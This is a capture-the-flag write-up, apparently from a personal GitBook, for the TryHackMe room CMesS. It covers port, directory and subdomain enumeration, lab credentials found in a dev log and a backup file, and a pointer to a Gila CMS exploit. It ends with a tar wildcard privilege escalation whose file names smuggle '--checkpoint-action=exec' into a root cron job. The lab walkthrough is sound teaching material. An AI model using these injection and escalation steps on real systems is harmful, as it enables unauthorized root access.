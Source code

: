 # 39 - CMesS (subdomain enum) (tar \* exploitation)

Room Link --> [https://tryhackme.com/room/cmess](https://tryhackme.com/room/cmess)

### Enumeration

Please add `10.10.86.16 cmess.thm` to /etc/hosts

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv   -sV -p- -T5

# outputs
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
{% endcode %}

#### Gobuster enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://cmess.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 500,403,404

# output
/login
/sites
/index
/about
/themes
/INDEX
/1px
/lib
```
{% endcode %}

#### Sub-domain enumeration with wfuzz

{% code overflow="wrap" lineNumbers="true" %}
```bash
wfuzz -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -t 42 --hl 107

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                        
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"
```
{% endcode %}

Add the `dev.cmess.thm` to /etc/hosts.

{% code overflow="wrap" %}
```
Development Log
andre@cmess.thm
Have you guys fixed the bug that was found on live?

support@cmess.thm
Hey Andre, We have managed to fix the misconfigured .htaccess file, we're hoping to patch it in the upcoming patch!

support@cmess.thm
Update! We have had to delay the patch due to unforeseen circumstances

andre@cmess.thm
That's ok, can you guys reset my password if you get a moment, I seem to be unable to get onto the admin panel.

support@cmess.thm
Your password has been reset. Here: KPFTN_f2yxe%
```
{% endcode %}

And we can try to login with creds: `andre@cmess.thm : KPFTN_f2yxe%` .

Searching Google for "Gila Cms exploit" and stumbled on [this](https://www.exploit-db.com/exploits/51569)

### Initial Access

Ready nc listener beore runnin the code.

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Another way to get shell

{% embed url="https://viperone.gitbook.io/pentest-everything/writeups/tryhackme/linux/cmess" %}

###

`cat /etc/crontab` .

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

We can see a cron job owned by root, utilizing the `tar *`  - wildcards. So we can exploit this.

But we have to be in "andre" home dir for this to work, then i realized we have to get access to user andre 1st.

Then i uploaded `linPEAS` into the machine and saw a file in the /opt dir.

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
{% endcode %}

We can ssh in as andres and exploit the  `tar *` vuln.

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

### Priv Esc

exploiting `tar *` or `tar wildcards` .

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Alternatively:

```
echo -e '#!/bin/bash\n/bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

# just wait 2 minutes for the job to run.
```

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>



Done.
